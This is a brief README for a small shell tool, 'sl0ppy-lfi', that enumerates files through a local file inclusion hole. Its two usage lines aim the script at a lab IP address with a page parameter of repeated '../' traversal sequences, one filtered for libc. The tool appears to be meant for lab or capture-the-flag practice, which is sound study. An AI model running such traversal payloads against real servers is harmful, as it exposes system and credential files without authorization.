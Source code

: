 # sl0ppy-lfi
small lfi enum tool 


# Usage 
* enum all 
./sl0ppy-lfi.sh http://10.10.11.154/index.php?page=../../../../../../../../../../

* enum specific stuff like only libc
./sl0ppy-lfi.sh http://10.10.11.154/index.php?page=../../../../../../../../../../ | grep "libc"
